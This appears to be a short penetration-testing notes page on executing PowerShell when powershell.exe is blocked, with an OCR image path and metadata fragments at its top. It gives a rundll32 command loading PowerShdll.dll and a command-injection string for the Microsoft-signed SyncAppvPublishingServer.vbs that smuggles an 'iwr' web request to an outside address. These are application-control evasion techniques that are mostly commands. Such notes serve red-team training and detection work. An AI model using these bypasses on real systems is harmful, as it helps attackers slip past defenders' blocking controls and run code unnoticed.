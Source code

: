 # Powershell Without Powershell.exe

Powershell.exe is just a process hosting the System.Management.Automation.dll which essentially is the actual Powershell as we know it.

If you run into a situation where powershell.exe is blocked and no strict application whitelisting is implemented, there are ways to execute powershell still.

## PowerShdll

```
rundll32.exe PowerShdll.dll,main
```

![](../../.gitbook/assets/pwshll-rundll32.gif)

Note that the same could be achieved with a compiled .exe binary from the same project, but keep in mind that .exe is more likely to run into whitelisting issues.

## SyncAppvPublishingServer

Windows 10 comes with `SyncAppvPublishingServer.exe and` `SyncAppvPublishingServer.vbs` that can be abused with code injection to execute powershell commands from a Microsoft signed script:

```
SyncAppvPublishingServer.vbs "Break; iwr http://10.0.0.5:443"
```

![](../../.gitbook/assets/pwshll-SyncAppvPublishingServer.png)

![](../../.gitbook/assets/pwshll-SyncAppvPublishingServer.gif)

## References

{% embed url="https://github.com/p3nt4/PowerShdll" %}

{% embed url="https://safe-cyberdefense.com/malware-can-use-powershell-without-powershell-exe/" %}

{% embed url="https://www.youtube.com/watch?v=7tvfb9poTKg" %}
